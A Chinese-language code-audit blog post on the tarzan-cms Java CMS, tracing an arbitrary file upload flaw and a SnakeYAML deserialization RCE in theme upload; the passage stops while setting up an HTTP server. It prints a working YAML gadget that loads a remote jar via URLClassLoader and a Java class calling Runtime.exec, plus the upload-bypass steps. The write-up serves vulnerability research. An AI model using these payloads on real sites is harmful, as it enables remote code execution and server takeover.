# Java代码审计-泰山CMS(tarzancms)审计-先知社区

> **来源**: https://xz.aliyun.com/news/16677  
> **文章ID**: 16677

---

# 前言

今天审计一下这套系统，尝试一下独自代码审计

> 首发先知社区，转载请标注原出处

# 环境搭建

CMS地址：<https://gitee.com/taisan/tarzan-cms>



根据readme给出的架构，我们使用如下环境：

**IDEA2024.4**

**JDK1.8**

**Mysql8**

## MySql导入



新建一个库，导入下图的sql文件



顺序：schema-mysql.sql-->data.sql

## IDEA设置

设置项目SDK为JDK8



在

```
src/main/resources/application-prod.yml
```

处设置JDBC链接



启动CmsApplication，



这样就搭建好了

# 代码审计

## 任意文件上传



进入后台后第一眼就看到了这有个上传，开着burp先随便传个图片



可以看到路由如上，IDEA按两下Shift全局搜



这样就找到了这个功能点的代码

```
    @ResponseBody
    @PostMapping("/upload")
    public UploadResponse upload(@RequestParam(value = "file", required = false) MultipartFile file) {
        return ossService.upload(file);
    }
```

可以看到直接从@RequestParam里获取了数据，然后给**ossService.upload**处理了，我们跟进这个方法

```
@SneakyThrows
public UploadResponse upload(MultipartFile file) {
if (file == null || file.isEmpty()) {
    throw new UploadFileNotFoundException(UploadResponse.ErrorEnum.FILE_NOT_FOUND.msg);
} // 如果文件为空，抛出异常
String originalFilename = file.getOriginalFilename();
String suffix = originalFilename.substring(originalFilename.lastIndexOf('.')).toLowerCase();
String value = sysConfigService.selectAll().get(SysConfigKey.CLOUD_STORAGE_CONFIG.getValue());
value=value.replaceAll("\\","");
CloudStorageConfigVo cloudStorageConfig = JSON.parseObject(value, CloudStorageConfigVo.class);

String md5 = MD5Util.getMessageDigest(file.getBytes());
String dir;
String filePath;
String domain;
String url = null;
ResponseVo<?> responseVo;
switch (cloudStorageConfig.getType()) {
    case CoreConst.UPLOAD_TYPE_QINIUYUN:
        domain = cloudStorageConfig.getQiniuDomain();
        dir = cloudStorageConfig.getQiniuPrefix();
        filePath = String.format("%1$s/%2$s%3$s", dir, md5, suffix);
        responseVo = QiNiuYunUtil.uploadFile(cloudStorageConfig, filePath, file.getBytes());
        url = String.format("%1$s/%2$s", domain, filePath);
        break;
    case CoreConst.UPLOAD_TYPE_ALIYUN:
        domain = cloudStorageConfig.getAliyunDomain();
        dir = cloudStorageConfig.getAliyunPrefix();
        filePath = String.format("%1$s/%2$s%3$s", dir, md5, suffix);
        responseVo = AliYunUtil.uploadFile(cloudStorageConfig, filePath, file.getBytes());
        url = String.format("%1$s/%2$s", domain, filePath);
        break;
    case CoreConst.UPLOAD_TYPE_LOCAL:
        String relativePath = FileUploadUtil.uploadLocal(file, fileUploadProperties.getUploadFolder());
        String accessPrefixUrl = fileUploadProperties.getAccessPrefixUrl();
        if (!StringUtils.endsWith(accessPrefixUrl, "/")) {
            accessPrefixUrl += '/';
        }
        url = accessPrefixUrl + relativePath;
        responseVo = ResultUtil.success();
        break;
    default:
        responseVo = ResultUtil.error("未配置云存储类型");
}
```

代码如上，文件仅判断了文件是否为空，就进入到了Switch语句里，switch是根据用户的选择来进行上传，这套系统默认选择的是本地上传，所以我们跟进**CoreConst.UPLOAD\_TYPE\_LOCAL**分支去看看

```
String relativePath = FileUploadUtil.uploadLocal(file, fileUploadProperties.getUploadFolder());

```

跟进FileUploadUtil.uploadLocal



```
public String uploadLocal(MultipartFile mf, String uploadPath) {
    String res = "";
    try {
        String fileName = null;
        String nowdayStr = new SimpleDateFormat("yyyyMMdd").format(new Date());
        String uploadFullPath = uploadPath + File.separator + nowdayStr + File.separator;
        File fileDir = new File(uploadFullPath);
        // 创建文件根目录
        if (!fileDir.exists() && !fileDir.mkdirs()) {
            log.error("创建文件夹失败: {}", uploadFullPath);
            return null;
        }
        // 获取文件名
        String orgName = mf.getOriginalFilename();
        fileName = orgName.substring(0, orgName.lastIndexOf('.')) + '_' + System.currentTimeMillis() + orgName.substring(orgName.indexOf('.'));

        String savePath = fileDir.getPath() + File.separator + fileName;
        File savefile = new File(savePath);
        FileCopyUtils.copy(mf.getBytes(), savefile);
        res = nowdayStr + File.separator + fileName;
        if (res.contains("\")) {
            res = PATTERN.matcher(res).replaceAll(Matcher.quoteReplacement("/"));
        }
    } catch (IOException e) {
        log.error(e.getMessage(), e);
    }
    return res;
}
```

这下可以确定了，妥妥的任意文件上传漏洞

## 文件上传复现



前端直接传jsp会被拦截，不用管，把文件名改为png，到burp在改回来



成功！

## RCE

这个洞是另一个师傅挖的，他提的ISSUE链接：

<https://gitee.com/taisan/tarzan-cms/issues/IBHZ0J>

漏洞在主题管理处



直接看代码

```
src/main/java/com/tarzan/cms/modules/admin/controller/biz/ThemeController.java
@ResponseBody
@PostMapping("/upload")
public ResponseVo upload(@RequestParam(value = "file", required = false) MultipartFile file) {
    return themeService.upload(file);
}
```

第34-38行，把上传的文件直接传进themeService.upload(file);，以刚刚的经验来看，应该是不会做处理的

跟进：



继续跟进

```
@CacheEvict(value = "theme", allEntries = true)
public ResponseVo upload(byte[] bytes) {
    try {
        // 获取文件名
        String themeName =  getZipThemeName(new ByteArrayInputStream(bytes));
        if(StringUtil.isEmpty(themeName)){
            return  ResultUtil.error("主题模板解析异常");
        }
        String themePath = cmsProperties.getThemeDir() + File.separator+themeName;
        File themeDir = new File(themePath);
        // 创建文件根目录
        if (!themeDir.exists() && !themeDir.mkdirs()) {
            return  ResultUtil.error("创建文件夹失败");
        }
        if(!FileUtil.isEmpty(Paths.get(themePath))){
            return  ResultUtil.error("主题已安装");
        }
        FileUtil.unzip(bytes, Paths.get(themePath));
        Optional<File> themeRoot= Arrays.stream(themeDir.listFiles()).findFirst();
        FileUtil.copyFolder(Paths.get(themeRoot.get().getPath()),Paths.get(themePath));
        FileUtil.deleteFolder(Paths.get(themeRoot.get().getPath()));
        Theme theme=new Theme();
        theme.setName(themeName);
        theme.setImg("theme"+ File.separator+themeName+File.separator+"screenshot.png");
        theme.setStatus(0);
        save(theme);
    } catch (IOException e) {
        return  ResultUtil.error(e.getMessage());
    }
    return ResultUtil.success();
}
```



来到了最终的方法，果不其然，没有做任何处理，解压后获取文件名，看看这个解压工具方法的代码



因为用到了Yaml，跟进去发现是SnakeYam



SnakeYaml全版本都可被反序列化漏洞利用，具体原理可以参考如下文章：

<http://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x01-%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5>

## RCE复现

创建一个yaml文件，名称为theme.yaml

```
name: "先知社区"
name2: !!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [
    !!java.net.URL ["http://localhost:8080/xzsq.jar"]
  ]
]
```

构造如上文件

当 YAML 解析器处理这段代码时，会按照以下步骤进行

1. **创建 URL 对象:** 首先，会创建一个 java.net.URL 对象，指向攻击者指定的远程 JAR 文件 URL (<http://localhost:8080/xzsq.jar)。>
2. **创建 URLClassLoader 对象:** 接着，会创建一个 java.net.URLClassLoader 对象，并将上一步创建的 URL 对象作为其构造函数的参数。这意味着这个 URLClassLoader 将能够从指定的 URL 下载和加载类。
3. **创建 ScriptEngineManager 对象:** 最后，会创建一个 javax.script.ScriptEngineManager 对象，并将创建的 URLClassLoader 对象作为其构造函数的参数（或者通过其他方式与 URLClassLoader 关联，具体取决于 YAML 库的实现和 Gadget Chain）。

接下来我们构建一个payload，



```
public class xzsq {
  static {
      try {
          Runtime.getRuntime().exec("calc");
      } catch (Exception e) {
          e.printStackTrace();
      }
  }
}
```

直接用Maven打包为jar包，命名为xzsq.jar



本地用python起一个http服务

